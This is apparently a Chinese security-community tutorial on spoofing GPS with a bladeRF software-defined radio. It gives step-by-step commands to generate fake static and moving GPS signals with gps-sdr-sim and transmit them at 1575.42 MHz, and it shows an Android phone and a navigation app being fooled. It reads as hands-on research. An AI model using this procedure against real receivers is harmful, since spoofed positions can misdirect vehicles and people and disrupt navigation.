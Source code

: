 

# 使用bladeRF进行GPS欺骗 - 先知社区

使用bladeRF进行GPS欺骗

- - -

## 简介

> BladeRF 是一款软件定义无线电(SDR)平台，由Nuand公司开发。它是一个高性能、可编程的设备，使用户能够发送和接收无线电频率信号。SDR技术允许用户通过软件来控制无线电通信的各个方面，而不是传统的硬件方法

刚好手边有一块BladeRF的板子，尝试实现对手机和车机的GPS欺骗攻击

## GPS简介

GPS（全球定位系统）是一种基于卫星导航的定位技术，通过使用一组卫星在空间中确定接收器的位置  
运行于宇宙空间的GPS卫星，每一个都在时刻不停地通过卫星信号向全世界广播自己的当前位置坐标信息，在发送位置的同时还会附上自己的时间戳，GPS接收器收到卫星GPS数据的时候，根据时间戳和光速可以算出自己和卫星的直线距离。  
理论上来说，三维空间中 三对卫星GPS数据就可以确定一个点了，但是现实中要确定一个点至少需要四颗卫星，多出来的一颗卫星就是用于消除和减少误差的，保证定位有效  
[![](assets/1706771133-e13dfa2a07b479869531380780a11046.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672137698-89b5a24a-3b14-4c35-a764-bdd668b9e4b9.png#averageHue=%23f0eeeb&clientId=u67f7ae35-39eb-4&from=paste&id=u998a79f1&originHeight=404&originWidth=570&originalType=url&ratio=1.5&rotation=0&showTitle=false&status=done&style=none&taskId=u429fb162-e02c-49d6-8ace-7b12ba441f7&title=)

## 环境搭建

### bladeRF设备识别

这里使用kali搭建环境（尝试了在windows下运行，虽然能识别到bladeRF设备，但是运行起来还是有奇奇怪怪的问题，如果还是想自己尝试一下windows环境的话可以参考官方文档 - [https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Windows](https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Windows) ）

参考官方文档 - [https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Linux](https://github.com/Nuand/bladeRF/wiki/Getting-Started%3A-Linux)

先将虚拟机的USB调整成USB3.1  
[![](assets/1706771133-feac4b37e78af9e0542d9848f0eefc62.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706603121109-e2f1e953-fda7-4d68-be69-a7753f8b8ea4.png#averageHue=%23f7f3f3&clientId=u83451815-4164-4&from=paste&height=421&id=ufb684df4&originHeight=421&originWidth=942&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=42031&status=done&style=none&taskId=u7cbecc35-0b7b-4075-9f98-97ffbb6617d&title=&width=942)

安装BladeRF工具

```plain
$ sudo add-apt-repository ppa:nuandllc/bladerf 
$ sudo apt-get update 
$ sudo apt-get installbladerf
```

安装header文件

```plain
$ sudo apt-get install libbladerf-dev
```

安装bladeRF固件和FPGA镜像，自行选择

```plain
$ sudo apt-get installbladerf-firmware-fx3 # 适用于所有型号bladeRF的固件
$ sudo apt-get installbladerf-fpga-hostedx40 # 适用于bladeRF x40 
$ sudo apt-get installbladerf-fpga-hostedx115 # 适用于bladeRF x115 
$ sudo apt-get 安装bladerf-fpga-hostedxa4 # 适用于bladeRF 2.0 Micro A4 
$ sudo apt-get installbladerf-fpga-hostedxa9 # 适用于bladeRF 2.0 Micro A9
```

安装依赖（这个一定要安装，至少usb的那两个要安装，不然会识别不到设备

```plain
sudo apt-get install libusb-1.0-0-dev libusb-1.0-0 build-essential cmake libncurses5-dev libtecla1 libtecla-dev pkg-config git wget
```

一切就绪之后，插上设备，使用命令就可以看到脸上的bladeRF了

```plain
bladeRF-cli -p
```

[![](assets/1706771133-61d87c78d51e03434c9bdea18bf5cdcf.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706603531682-5f124a4c-957f-405a-b866-4d9488260fed.png#averageHue=%23272b38&clientId=u83451815-4164-4&from=paste&height=142&id=u31edb77b&originHeight=213&originWidth=519&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=51831&status=done&style=none&taskId=ua3d76d50-be0e-4f9c-b1b4-7d866df50c5&title=&width=346)

### 生成GPS数据

我们利用bladeRF来收发GPS数据，GPS数据的来源需要使用gps-sdr-sim - [https://github.com/osqzss/gps-sdr-sim](https://github.com/osqzss/gps-sdr-sim)工具来静态生成

```plain
git clone https://github.com/osqzss/gps-sdr-sim.git
cd gps-sdr-sim
gcc gpssim.c -lm -O3 -o gps-sdr-sim
```

在谷歌在线地图上面选择一个坐标，我这里选择澳门葡京娱乐场，经纬度为 22.18982545839303, 113.544124355456  
[![](assets/1706771133-f5837f874e6a4cf507008073ec40e07c.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706589365087-ef7f2f3d-56d9-406c-945a-7d6657c26711.png#averageHue=%23c8ebd3&clientId=ue69a2480-96fa-4&from=paste&height=606&id=u7684b48a&originHeight=909&originWidth=1438&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1096828&status=done&style=none&taskId=u416a9dfc-920d-414d-8dc9-4e48ad6e021&title=&width=958.6666666666666)  
使用项目源码中自带的卫星星历生成GPS数据，生成澳门新葡京的固定坐标数据

```plain
./gps-sdr-sim -e brdc0010.22n -l 22.18982545839303,113.544124355456,100 -b 16
```

[![](assets/1706771133-0575b76a19944c10b82bb804b8ca82fb.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610910066-3f299f14-7113-4fd8-b6af-a7e3ade9834b.png#averageHue=%232a2f3c&clientId=u67f7ae35-39eb-4&from=paste&height=372&id=u62241abc&originHeight=372&originWidth=640&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=113255&status=done&style=none&taskId=uf9548f7c-1290-4c2c-aa77-679d43d3759&title=&width=640)  
这里的gpssim.bin文件就是模拟生成的GPS数据  
[![](assets/1706771133-ee1e22ecd1676280b9cf9d4a1144c765.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610945529-44dd6b04-0458-4a29-8f50-9332fb01a5b3.png#averageHue=%232f3440&clientId=u67f7ae35-39eb-4&from=paste&height=347&id=u2b834577&originHeight=347&originWidth=613&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=126056&status=done&style=none&taskId=u9f34b65c-2548-432c-9475-050dfc57275&title=&width=613)

## GPS欺骗

### 手机静态GPS欺骗

bladeRF进入交互模式

```plain
# bladeRF-cli -i
bladeRF> set frequency tx1 1575.42M

  TX1 Frequency: 1575419998 Hz (Range: [47000000, 6000000000])

bladeRF> set samplerate tx1 2.6M

  Setting TX1 sample rate - req:   2600000 0/1Hz, actual:   2600000 0/1Hz

bladeRF> set bandwidth tx1 2.5M

  TX1 Bandwidth:   2500000 Hz (Range: [200000, 56000000])

bladeRF> tx config file=gpssim.bin format=bin channel=1
bladeRF> tx start
bladeRF> tx wait
```

[![](assets/1706771133-0f3796c780cbddb2eee0b04d96f9def5.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706610786702-e9fbcad0-f6b4-4a9e-b2f5-6928fbd0c473.png#averageHue=%23282d39&clientId=u67f7ae35-39eb-4&from=paste&height=302&id=u61be7361&originHeight=302&originWidth=642&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=83610&status=done&style=none&taskId=u23b20a65-c394-4654-b664-31fa194ebdc&title=&width=642)  
AOSP（Android 10）手机打开GPS Test这个软件，因为它是仅GPS的，所以纯纯被欺骗  
[![](assets/1706771133-c54714ba107bb0534ed930b748afeb31.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706610751260-e705ad24-ca9b-4d46-8d20-199a394357f7.jpeg#averageHue=%23385c4b&clientId=u67f7ae35-39eb-4&from=paste&height=1616&id=u7746e000&originHeight=1616&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1119961&status=done&style=none&taskId=u13d2fd9b-7134-498b-bb87-27cf16fe6fc&title=&width=1280)  
虽然有一点点的偏差（可能是我用的星历比较老），但可以看出来GPS已经被欺骗了（本来在室内环境下不能识别到卫星信号）

### 联网状态下定位欺骗

> 联网状态下能实现定位欺骗吗

测试之前我觉得是不能的  
手机联网状态下高德竟然也可以被欺骗....原因可能是多样的，比如我这个测试机没有手机卡，Android版本比较低等等  
[![](assets/1706771133-b10a542c2ac9c3f1a9f86153bd3983fb.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706667160643-a4d1a628-a036-46f2-93b1-b98d82ff1fd8.jpeg#averageHue=%233d4545&clientId=u67f7ae35-39eb-4&from=paste&height=1706&id=u2f8501d2&originHeight=1706&originWidth=1280&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=597015&status=done&style=none&taskId=u235846af-d7d3-4618-98f8-c780bab6315&title=&width=1280)

使用

### 动态GPS欺骗

在在线网址上画路径 - [https://earth.google.com/](https://earth.google.com/)  
[![](assets/1706771133-a1c9690f78be06cf1e3e2b38488b6684.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706671397068-230d7cc1-b0de-491b-977c-1e1d9c79288b.png#averageHue=%23677883&clientId=u67f7ae35-39eb-4&from=paste&height=329&id=ub593b13e&originHeight=493&originWidth=612&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=710638&status=done&style=none&taskId=uaab6a07a-08f0-4e54-b054-1dd33d0756e&title=&width=408)  
导出为KML，接着将kml格式数据导入SatGEN，生成MNEA格式文件  
[![](assets/1706771133-3006080df91d2bc1d29d227c8ab43a2b.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672756909-4dd1c053-216b-4b2f-b4be-f02f382f1880.png#averageHue=%23cbb79e&clientId=u67f7ae35-39eb-4&from=paste&height=534&id=u53eab0e6&originHeight=801&originWidth=1258&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=170736&status=done&style=none&taskId=u5e67faf8-7db4-4961-8f02-a82fceab907&title=&width=838.6666666666666)  
生成内容如下  
[![](assets/1706771133-20ccf6abe39beb6efd597152f0823a7a.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706672933644-ab7e2b52-3e46-465d-840a-700a9ab7b9ef.png#averageHue=%2333302e&clientId=u67f7ae35-39eb-4&from=paste&height=385&id=ud2ccbd6a&originHeight=577&originWidth=1104&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=207443&status=done&style=none&taskId=ue9fedd2d-ac25-475f-8602-bd515dc521f&title=&width=736)  
使用gps-sdr-sim生成轨迹数据

```plain
./gps-sdr-sim -e brdc0010.22n -g KMLoutput.txt -b 16
```

[![](assets/1706771133-302590920e43a0d5d77f663a706a7f6f.png)](https://cdn.nlark.com/yuque/0/2024/png/21398751/1706675542488-d98abfc5-e764-4f28-88a0-052d7c6904f3.png#averageHue=%232d313c&clientId=u33bbd212-41e5-4&from=paste&height=321&id=u4e0b6272&originHeight=321&originWidth=530&originalType=binary&ratio=1&rotation=0&showTitle=false&size=83610&status=done&style=none&taskId=ub103f47e-b74b-4206-a898-7bf9f825e7e&title=&width=530)  
最后按照之前的方法使用bladeRF-cli进行欺骗即可，打开高德地图可以看到正在按照我们之前的路线行进，欺骗成功  
[![](assets/1706771133-016eef6ceaf3230ee274dc2c41431e8c.jpeg)](https://cdn.nlark.com/yuque/0/2024/jpeg/21398751/1706676005112-b4ebb486-c4fb-415d-ae3a-21465458949e.jpeg#averageHue=%2390968b&clientId=u33bbd212-41e5-4&from=paste&height=4096&id=ubeba984f&originHeight=4096&originWidth=3072&originalType=binary&ratio=1&rotation=0&showTitle=false&size=3880949&status=done&style=none&taskId=ub371095d-479e-42b5-9471-06968ee2501&title=&width=3072)

## 参考链接

-   [https://www.anquanke.com/post/id/204316](https://www.anquanke.com/post/id/204316)
-   [https://bbs.kanxue.com/thread-271306.htm](https://bbs.kanxue.com/thread-271306.htm)
-   [https://mp.weixin.qq.com/s/y\_seB1mt1Oa1SGZBE0skNQ](https://mp.weixin.qq.com/s/y_seB1mt1Oa1SGZBE0skNQ)
-   [https://xz.aliyun.com/t/124](https://xz.aliyun.com/t/124)
-   [https://www.cnblogs.com/magicboy110/articles/1901669.html](https://www.cnblogs.com/magicboy110/articles/1901669.html)
-   [https://zhuanlan.kanxue.com/article-12936.htm](https://zhuanlan.kanxue.com/article-12936.htm)
-   [https://github.com/Nuand/bladeRF/wiki](https://github.com/Nuand/bladeRF/wiki)
-   [https://blog.csdn.net/OpenSourceSDR/article/details/108857782](https://blog.csdn.net/OpenSourceSDR/article/details/108857782)
-   [https://www.blackhat.com/docs/eu-15/materials/eu-15-Kang-Is-Your-Timespace-Safe-Time-And-Position-Spoofing-Opensourcely-wp.pdf](https://www.blackhat.com/docs/eu-15/materials/eu-15-Kang-Is-Your-Timespace-Safe-Time-And-Position-Spoofing-Opensourcely-wp.pdf)
-   [https://blog.csdn.net/qq\_43066145/article/details/124802734](https://blog.csdn.net/qq_43066145/article/details/124802734)
-   [https://www.mrskye.cn/archives/5d9be0ae/](https://www.mrskye.cn/archives/5d9be0ae/)
